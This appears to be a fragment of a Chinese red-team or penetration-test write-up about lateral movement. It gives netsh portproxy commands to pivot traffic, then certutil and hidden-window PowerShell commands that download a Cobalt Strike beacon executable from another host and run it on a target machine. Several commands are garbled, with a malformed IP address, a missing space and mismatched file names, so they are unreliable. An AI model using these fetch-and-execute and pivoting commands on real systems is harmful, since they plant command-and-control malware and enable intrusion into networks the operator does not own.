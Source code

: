[![](assets/1698990322-24017e3412a7793a8f0cbbd9ee6f55c3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231102173155-a9c386a4-7962-1.png)

```plain
netsh interface portproxy add v4tov4 listenport=4455 connectaddress=1.xxx.xxx.40 connectport=4455
```

```plain
shell netsh interface portproxy add v4tov4 listenport=80connectaddress=192..168.22.152:connectport=80
certutil -urlcache -split -f http://192..168.22.152:/beacon1.exe  beacon1.exe
certutil -urlcache -split -f http://192.168.22.152/beacon1.exe  beacon1.exe
powershell.exe -ExecutionPolicy bypass -noprofile -windowstyle hidden (new-object system.net.webclient).downloadfile('http://192.168.22.152/beacon1.exe','beacon1.exe');start-process beacon.exe
```

使用cs生成beacon.exe，然后下载到data主机上，执行exe文件。
